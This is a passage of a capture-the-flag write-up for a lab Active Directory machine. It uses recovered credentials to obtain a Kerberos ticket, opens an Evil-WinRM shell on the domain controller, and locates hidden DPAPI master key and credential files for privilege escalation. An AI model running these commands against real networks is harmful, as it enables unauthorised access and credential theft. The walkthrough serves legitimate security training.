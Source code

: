These are credentials for the `steph.cooper` user! Let's authenticate and login
```bash
┌──(kali@kali)-[~/puppy.htb]
└─$ sync-ad getTGT.py -dc-ip 10.10.11.70 'puppy.htb/steph.cooper:ChefSteph2025!'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Saving ticket in steph.cooper.ccache

┌──(kali@kali)-[~/puppy.htb]
└─$ export KRB5CCNAME=/home/kali/puppy.htb/steph.cooper.ccache

┌──(kali@kali)-[~/puppy.htb]
└─$ sync-ad evil-winrm -i dc.puppy.htb -r puppy.htb                             

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> 
```
### steph.cooper -> steph.cooper_adm
We're able to find some [DPAPI](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html){:target="_blank"}{:rel="noopener noreferrer"} credential files using the `-Hidden` flag in these directories
```bash
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107> ls -Hidden


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:40 AM            740 556a2412-1275-4ccf-b721-e6a0b4f90407
-a-hs-         2/23/2025   2:36 PM             24 Preferred
```

```bash
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials> ls -Hidden


    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9
```
